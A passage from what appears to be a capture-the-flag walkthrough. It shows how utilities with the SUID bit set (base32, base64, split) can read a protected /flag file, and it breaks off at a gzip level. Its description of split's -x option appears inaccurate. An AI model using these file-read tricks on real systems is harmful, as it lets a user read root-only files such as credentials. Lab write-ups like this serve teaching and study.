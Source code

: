 The `base32` utility can be used to Base32 encode or decode data.

```
hacker@program-misuse~level14:/$ base32 /flag 
```

THis prints the Base32 encoded flag string.

We can decode this string using the `-d` option.

```
hacker@program-misuse~level14:/$ base32 /flag | base32 -d
```

&nbsp;

## base64

> I just set the SUID bit on /usr/bin/base64.\
> Try to use it to read the flag!

The `base64` utility can be used to Base64 encode or decode data.

```
hacker@program-misuse~level15:/$ base64 /flag 
```

This prints the Base64 flag string.

We can decode the string using the `-d` option.

```
hacker@program-misuse~level15:/$ base64 /flag | base64 -d
```

&nbsp;

## split

> I just set the SUID bit on /usr/bin/split.\
> Try to use it to read the flag!

The `split` utility splits the given data based on the buffer size that is set.

The `-x` option prints an unbuffered stream of data.

```
hacker@program-misuse~level16:~$ split -x /flag 
```

This prints the flag into a file `xaa` (could be different on your end). 

```
hacker@program-misuse~level16:~$ cat xaa 
```

&nbsp;

## gzip

> I just set the SUID bit on /usr/bin/gzip.\
> Try to use it to read the flag!
